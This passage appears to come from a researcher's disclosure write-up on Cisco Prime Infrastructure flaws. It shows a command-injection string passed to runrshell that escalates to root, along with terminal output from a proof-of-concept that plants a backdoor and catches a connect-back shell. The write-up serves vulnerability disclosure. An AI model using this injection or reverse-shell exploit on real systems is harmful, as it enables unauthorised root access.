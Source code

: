 ## Bonus

<p class="cn" markdown="1">Since Cisco didn't patch [CVE-2018-15379](https://github.com/pedrib/PoC/blob/master/advisories/cisco-prime-infrastructure.txt#L56) completely, I was able to escalate my access to root:</p>

```
python -c 'import pty; pty.spawn("/bin/bash")'
[prime@piconsole CSCOlumos]$ /opt/CSCOlumos/bin/runrshell '" && /bin/sh #'
/opt/CSCOlumos/bin/runrshell '" && /bin/sh #'
sh-4.1# /usr/bin/id
/usr/bin/id
uid=0(root) gid=0(root) groups=0(root),110(gadmin),201(xmpdba) context=system_u:system_r:unconfined_java_t:s0
```

<p class="cn" markdown="1">But wait, there is more! Another remote code execution vulnerability also exists in the source code of [TarArchive.java](https://github.com/radare/radare2-installer/blob/master/src/com/ice/tar/TarArchive.java#L522). Can you spot it? :-></p>

## Proof of Concept

```
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.100.123 192.168.100.2:4444

saturn:~ mr_me$ ./poc.py 192.168.100.123 192.168.100.2:4444
(+) planted backdoor!
(+) starting handler on port 4444
(+) connection from 192.168.100.123
(+) pop thy shell!
python -c 'import pty; pty.spawn("/bin/bash")'
[prime@piconsole CSCOlumos]$ /opt/CSCOlumos/bin/runrshell '" && /bin/sh #'
/opt/CSCOlumos/bin/runrshell '" && /bin/sh #'
sh-4.1# /usr/bin/id
/usr/bin/id
uid=0(root) gid=0(root) groups=0(root),110(gadmin),201(xmpdba) context=system_u:system_r:unconfined_java_t:s0
```

<p class="cn" markdown="1">You can download the full exploit [here](/pocs/src-2019-0034.py.txt).</p>

## Thanks

<p class="cn" markdown="1">A special shoutout goes to Omar Santos and Ron Taylor of Cisco PSIRT for communicating very effectively during the process of reporting the vulnerabilities.</p>

## Conclusion

<p class="cn" markdown="1">This vulnerability survived multiple code audits by security researchers and I believe that's because it was triggered in a component that was only reachable after configuring high availability. Sometimes it takes extra effort from the security researchers point of view to configure lab environments correctly.</p>
